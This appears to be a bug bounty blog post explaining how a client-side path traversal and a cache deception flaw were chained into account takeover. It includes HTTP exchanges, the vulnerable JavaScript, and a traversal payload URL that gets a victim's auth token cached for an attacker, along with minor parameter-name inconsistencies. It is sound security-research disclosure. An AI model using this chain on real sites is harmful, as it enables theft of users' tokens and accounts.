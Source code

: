 ```yaml
---
title: "Cache Deception + CSPT: Turning Non Impactful Findings into Account Takeover"
keywords: "cache deception, cspt, client-side path traversal, account takeover, bug bounty, web security, vulnerability chaining, security research"
date: 2025-08-17
lastmod: 2025-08-17
categories: [Security, Bug-Bounty, Web-Security]
tags: [cspt, cache-deception, account-takeover, web-security, bug-bounty, client-side-path-traversal, vulnerability-chaining]
toc: true
math: false
mermaid: true
---
```


Recently, while auditing the main application of a private bug bounty program, I discovered a **Client-Side Path Traversal (CSPT)** and a **Cache Deception** vulnerability. Individually, these issues were unexploitable and had no real impact. However, when chained together, I was able to demonstrate **Account Takeover**.

Before diving into the details, if you’re not familiar with these concepts, I highly recommend checking out:

**For CSPT:**
- [Matan Ber's excellent introduction to CSPT](https://matanber.com/blog/cspt-levels/){:target="_blank"} – a thorough explanation of the concept from the basics.
- [My CSPT talk in Spanish](https://www.youtube.com/watch?v=TAl1UIdZbK8){:target="_blank"} – if you speak Spanish, I cover the fundamentals and some practical scenarios here.
- [This great CSPT presentation by Maxence Schmitt](https://www.youtube.com/watch?v=O1ZN_OCfNzg&pp=ygUbIGNsaWVudCBzaWRlIHBhdGggdHJhdmVyc2Fs){:target="_blank"}

**For Cache Deception:**
- [https://portswigger.net/web-security/web-cache-deception](https://portswigger.net/web-security/web-cache-deception){:target="_blank"}


## **Cache Deception**

During my initial reconnaissance, I found the following request:

```http
GET /v1/token HTTP/1.1
Host: api.example.com
X-Auth-Token: <REDACTED>
Accept: application/json
Accept-Encoding: gzip, deflate, br
```

```http
HTTP/1.1 200 OK
Content-Type: application/json
Cache-Control: no-cache, no-store, must-revalidate
X-Cache: Miss from cdn
Connection: keep-alive

{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."}
```


As the endpoint was returning sensitive data, I decided to test if it was vulnerable to **Cache Deception** by adding a `.css` extension:


```http
GET /v1/token.css HTTP/1.1
Host: api.example.com
X-Auth-Token: <REDACTED>
Accept: application/json
Accept-Encoding: gzip, deflate, br
```

```http
HTTP/1.1 200 OK
Content-Type: application/json
Cache-Control: max-age=86400, public
X-Cache: Hit from cdn
Connection: keep-alive

{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."}
```


As you can see, the response was identical and was being cached. This showed that the endpoint was indeed vulnerable to Cache Deception.

However, it required the `X-Auth-Token` header, which browsers cannot send automatically when users visit a URL directly. This made the Cache Deception vulnerability unexploitable, as an attacker could not force a victim’s browser to include his authentication token when making the request.


## **Client-Side Path Traversal**

While reviewing the frontend code, I found the following JavaScript:


```javascript
const urlParams = new URLSearchParams(window.location.search);
const userId = urlParams.get('userId');

const apiUrl = `https://api.example.com/v1/users/info/${userId}`;

fetch(apiUrl, {
  method: 'GET',
  headers: {
    'X-Auth-Token': authToken
  }
})
.then(response => response.json())
.then(data => {
  displayUSERData(data);
})
.catch(err => console.error("Error loading user info:", err));
```

This shows a classic example of a **Client-Side Path Traversal** vulnerability. The `userId` parameter was being directly embedded into the API URL without any validation against path traversal.

<br>

```mermaid
sequenceDiagram
    participant U as USER
    participant C as BROWSER
    participant A as API

    U->>C: Visits<br/>https://example.com/profile?userId=104
    
    C->>A: GET /v1/users/info/104<br/>X-Auth-Token: [token]
    Note over C,A: Authenticated request
    
    A->>C: HTTP/1.1 200 OK<br/>Content-Type: application/json<br/>{"username":"Juan","...}
    Note over A,C: USER data returned
    
    Note over C: Display: "Welcome Juan"
```

<br>

Therefore, I could control the path of an **authenticated** request to the API. But what could I do with this control? I wasn't able to find any open redirect, nor could I manipulate the body of any API response. On its own, this CSPT was not exploitable.

## **The Chain**

At that point, I realized: what if I combined both findings?

The **CSPT** vulnerability allows me to control the path of an authenticated API request that includes the `X-Auth-Token` header, while the **Cache Deception** issue requires that header to be present in order to cache sensitive data.

In other words, **what if I used the CSPT to make an authenticated request directly to the cacheable endpoint?**

To test this, I crafted a **CSPT** payload that would traverse to the cacheable endpoint:

```
https://example.com/user?id=../../../v1/token.css
```

When a user visits this URL, the JavaScript constructs:
```
https://api.example.com/v1/users/info/../../../v1/token.css
```

Which resolves to:
```
https://api.example.com/v1/token.css
```

The key insight is that this request includes the user's **`X-Auth-Token`** header. Thus, when the CSPT triggers, it sends an authenticated request to the cacheable endpoint.

The API returns the sensitive token data, and the CDN caches the response.

Now, when anyone (including unauthenticated users) visits `https://api.example.com/v1/token.css`, the CDN serves the victim’s cached sensitive data, which includes their token, leading to account takeover.

<br>

```mermaid
sequenceDiagram
    participant A as ATTACKER
    participant C as VICTIM'S BROWSER
    participant CA as CDN
    participant API as API

    A->>C: "Click Here"
    Note over A,C: https://example.com/profile?id=<br/>../../token.css
    
    C->>CA: GET /v1/token.css<br/>X-Auth-Token: ...
    Note over C,CA: Authenticated request <br/>to cacheable endpoint
    
    CA->>API: GET /v1/token.css<br/>X-Auth-Token: ...
    
    API->>CA: {"token":"..."}
    Note over API,CA: Sensitive token data
    
    CA->>C: {"token":"..."}
    Note over CA,C: Cached sensitive token
    
    A->>CA: GET /v1/token.css
    Note over A,CA: Direct cache access<br/>(no auth required)
    
    CA->>A: {"token":"..."}
    Note over CA,A: Attacker retrieves victim's cached token
```

<br>

## **Conclusion**

I hope the attack chain was informative and provided new insights into how minor vulnerabilities, when combined, can create significant security risks, showing why it’s crucial to think beyond individual security mechanisms and never ignore seemingly unexploitable findings. In many cases, the most dangerous attacks result from chaining multiple vulnerabilities that appear harmless in isolation.

If you have any questions about the attack methodology, technical details, or want to discuss similar findings, feel free to reach out.